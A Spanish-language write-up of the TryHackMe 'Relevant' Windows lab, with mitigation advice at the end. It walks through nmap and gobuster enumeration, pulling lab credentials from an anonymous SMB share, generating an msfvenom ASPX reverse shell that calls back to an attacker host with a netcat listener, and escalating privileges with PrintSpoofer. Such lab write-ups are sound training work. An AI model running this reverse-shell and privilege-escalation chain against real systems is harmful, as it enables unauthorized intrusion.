









# Relevant - Writeup

| Plataforma | S.O. | Dificultad | IP Objetivo | Temas Clave |
| :--- | :--- | :--- | :--- | :--- |
| TryHackMe | Windows | Medio | `10.128.133.189` | Fuzzing, SMB client, ASPX reverse shell, PrintSpoofer (PrivEsc) |

## Reconocimiento y Enumeración

### Escaneo de puertos

```bash
nmap -sC -sV -Pn -p- 10.128.133.189
```



### Fuzzing de directorios

Se prueba el puerto 49663 y se realiza fuzzing:

```bash
gobuster dir -u http://10.128.133.189:49663 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



Se encuentra el directorio "nt4wrksv".

### Recursos compartidos SMB

Se usa smbclient:

```bash
smbclient -L //10.128.133.189 -N
```



Se accede al recurso y se encuentra passwords.txt:

```bash
smbclient //10.128.133.189/nt4wrksv -N
ls
get passwords.txt
exit
cat passwords.txt
```



Se obtienen dos credenciales en base64:

- Bob - !P@$$W0rD!123
- Bill - Juw4nnaM4n420696969!$$$

Vemos que a este archivo tambien se puede acceder desde la web, osea que, la carpeta de samba y la carpeta del servidor web son la misma, por lo que podemos acceder a ese archivo desde el navegador.



## Explotación

### Explotación y Acceso Inicial

Ahora podemos intentar subir un archivo con una reverseshell.
Para esto, primero creamos una reverseshell con msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.151.119 LPORT=4444 -f aspx > shell.aspx
```

Luego, iniciamos un listener con netcat para recibir la conexión de la reverseshell:


```bash
nc -lvnp 4444
```



## Post-Explotación y Escalada de Privilegios

### Escalada de privilegios

```bash
git clone https://github.com/dievus/printspoofer.git
```

Ahora para la escalada de privilegios, vamos a usar PrintSpoofer, que es una herramienta que permite explotar una vulnerabilidad en el servicio de impresión de Windows para ejecutar código con privilegios elevados.

```bash
smbclient //10.128.133.189/nt4wrksv -N
put PrintSpoofer.exe
exit
```



Luego, accedemos a la máquina objetivo con la reverseshell que creamos anteriormente y ejecutamos el siguiente comando para ejecutar PrintSpoofer:

```bash
PrintSpoofer.exe -i -c cmd.exe
```

Esto nos dará una nueva reverseshell con privilegios elevados.



## Mitigación y Recomendaciones

1. **Separación de Funciones**: No montar la carpeta raíz de un servidor web (IIS) sobre el mismo directorio físico expuesto con permisos de escritura en un recurso compartido de red (SMB).
2. **Restricción de Escritura en SMB**: Deshabilitar el acceso de escritura anónimo o sin autenticar en recursos de red compartidos. Implementar control de accesos basado en roles (RBAC).
3. **Limitar Privilegios de Suplantación**: Remover el privilegio `SeImpersonatePrivilege` de cuentas de servicio web que no lo requieran expresamente para evitar técnicas de suplantación como PrintSpoofer.
4. **Seguridad en Carga de Archivos**: Configurar el servidor IIS para no permitir la ejecución de scripts (por ejemplo, archivos `.aspx`) en carpetas públicas o destinadas a la carga de datos.

